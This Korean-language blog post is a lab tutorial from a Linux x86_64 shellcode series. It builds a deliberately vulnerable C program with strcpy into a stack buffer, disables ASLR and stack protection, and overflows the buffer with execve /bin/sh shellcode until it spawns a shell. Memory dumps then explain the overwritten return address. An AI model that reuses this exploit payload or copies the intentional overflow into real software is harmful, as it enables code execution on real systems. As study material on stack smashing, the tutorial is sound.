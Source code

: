 ```yaml
---
layout: post
title: "Linux x86_64 Shellcode 5"
date: 2014-11-10 22:26:30 +0900
comments: true
categories: 
---
```


##### vic.c 

이제 vulnerable 한 실행화일을 외부에서 exploit 해보자.

일단 우분투에서 `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space` 커맨드로 ASLR 을 끄고, `-fno-stack-protector -z execstack` 으로 취약한 executable 을 만든다.

    unsigned long esp(void)
    {
        __asm__("mov %rsp,%rax");
    }
    void main(int ac, char **av)
    {
        char arr[512];
        if (ac > 1) {
            printf("address of arr: %lx\n",&arr);
            printf("esp: %lx\n",esp());
            strcpy(arr, av[1]);
        }
    }

    # echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
    $ gcc -fno-stack-protector -z execstack -o vic vic.c

##### Smash!

이제 터뜨려본다.

    z@ubuntu:~/shell$ ./vic $(printf "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05%0480x\x70\xdc\xff\xff\xff\x7f\x00\x00" 0)
    address of arr: 7fffffffdc70
    esp: 7fffffffdc50
    z@ubuntu:~/shell$

arr 의 주소는 `0x7fffffffdc70` 이었다. 아무일 없다.

482 시도

    z@ubuntu:~/shell$ ./vic $(printf "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05%0482x\x60\xdc\xff\xff\xff\x7f\x00\x00" 0)
    address of arr: 7fffffffdc60
    esp: 7fffffffdc40
    Segmentation fault (core dumped)

이번에는 arr 의 주소가 `0x7fffffffdc60` 으로 바뀌었다. 
coredump 가 난다. 
`return address` 를 `0x007fffffffdc60` 으로 overwrite 하기로 한다. arg 의 마지막을 `\x60\xdc\xff\xff\xff\x7f\x00\x00` 로 맞춰준다. arg 의 첫부분은 shellcode 로 맞춰준다. 가운데의 `\%0482x` 으로 길이를 조절한다.

485 시도

    z@ubuntu:~/shell$ ./vic $(printf "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05%0485x\x60\xdc\xff\xff\xff\x7f\x00\x00" 0)
    address of arr: 7fffffffdc60
    esp: 7fffffffdc40
    Segmentation fault (core dumped)

486 시도

    z@ubuntu:~/shell$ ./vic $(printf "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05%0486x\x60\xdc\xff\xff\xff\x7f\x00\x00" 0)
    address of arr: 7fffffffdc60
    esp: 7fffffffdc40
    Segmentation fault (core dumped)

487 시도

    z@ubuntu:~/shell$ ./vic $(printf "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05%0487x\x60\xdc\xff\xff\xff\x7f\x00\x00" 0)
    address of arr: 7fffffffdc60
    esp: 7fffffffdc40
    $

터졌다.

code 를 수정해, rbp,rsp, arr 를 덤프해서 주소들을 비교해보았다.

    z@ubuntu:~/shell$ ./vic $(printf "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05%0487x\x60\xdc\xff\xff\xff\x7f\x00\x00" 0)
    address of arr: 7fffffffdc60 <- main 에 있는 arr 주소
    rsp: 7fffffffdc40 <- subfunction 의 %rsp
    arr dump: <- arr 에 shellcode 가 제대로 적재되었는가?
    48 <- xor %rdx,%rdx
    31
    d2
    got it! 7fffffffde68 <- \x60\xdc\xff\xff\xff\x7f\x00\x00 이 있는 주소
    7fffffffde60: 3030303030303030 <- saved %rbp 가 '0' 으로 뭉개졌다
    7fffffffde68: 00007fffffffdc60 <- address of arr 로 overwrite 되었다
    7fffffffde70: 0000000000000000
    7fffffffde78: 00007fffffffdf48
    7fffffffde60: 00007fffffffde60 <- %rbp 를 덤프해보았다
    $ 

    00007fffffffde68 <- return address of main()
    00007fffffffde60 <- %rbp
    00007fffffffdc60 <- start of 'arr' (0x200 bytes)
    00007fffffffdc40 <- subfunction frame 이 셋업되고 그 %rsp

##### 참고

* [How can I temporarily disable ASLR (Address space layout randomization)?](http://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization)
* [Disabling Stack Smashing Protection in Ubuntu 11.04](http://stackoverflow.com/questions/5863252/disabling-stack-smashing-protection-in-ubuntu-11-04)
* [Why is execstack required to execute code on the heap?](http://stackoverflow.com/questions/23276488/why-is-execstack-required-to-execute-code-on-the-heap)
* [Stack Smashing On A Modern Linux System](http://www.exploit-db.com/papers/24085/)

